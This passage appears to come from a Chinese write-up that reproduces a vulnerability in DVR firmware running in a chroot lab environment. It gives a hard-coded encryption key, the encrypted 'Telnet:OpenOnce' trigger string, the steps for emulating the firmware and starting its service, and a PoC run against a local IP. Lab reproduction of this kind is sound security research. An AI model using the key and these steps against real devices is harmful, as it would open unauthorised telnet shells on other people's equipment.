 ```python

eg = EncryptDate("159124332wj9fsa2")  # 这里密钥的长度必须是16的倍数
res1 = eg.encrypt("15912433")
res2 = eg.encrypt("Telnet:OpenOnce")
print(res1)
print(res2)
```

#### 复现

##### 复制文件

```bash
emtanling@emtanling-virtual-machine:~/Desktop/_Simp.bin.extracted$ cp _user-x.cramfs.img.extracted/squashfs-root/ _romfs-x.cramfs.img.extracted/squashfs-root/usr/
emtanling@emtanling-virtual-machine:~/Desktop/_Simp.bin.extracted$ cp -r _custom-x.cramfs.img.extracted/squashfs-root/ _romfs-x.cramfs.img.extracted/squashfs-root/mnt/custom/
```

##### 文件挂载

```sh
emtanling@emtanling-virtual-machine:~/Desktop/_Simp.bin.extracted/_romfs-x.cramfs.img.extracted$ sudo mount -o bind /dev ./squashfs-root/dev
emtanling@emtanling-virtual-machine:~/Desktop/_Simp.bin.extracted/_romfs-x.cramfs.img.extracted$ sudo mount -t proc /proc ./squashfs-root/proc
```

##### 进入shell

```bash
emtanling@emtanling-virtual-machine:~/Desktop/_Simp.bin.extracted/_romfs-x.cramfs.img.extracted$ sudo chroot ./squashfs-root/ sh
```

![](https://i.loli.net/2021/08/03/7xFJhzTo5ilKGdB.png)

##### 固件服务开启

```bash
cd /etc/init.d
./rcS
```

![](https://i.loli.net/2021/08/03/ZIOnTK6gMxlX3QJ.png)

设置好ip再次进入固件启动服务

```bash
dvrHelper /lib/modules /var/Sofia 192.168.139.136 9578 1
```

##### 执行poc

```bash
./poc 192.168.139.136 2wj9fsa2
```
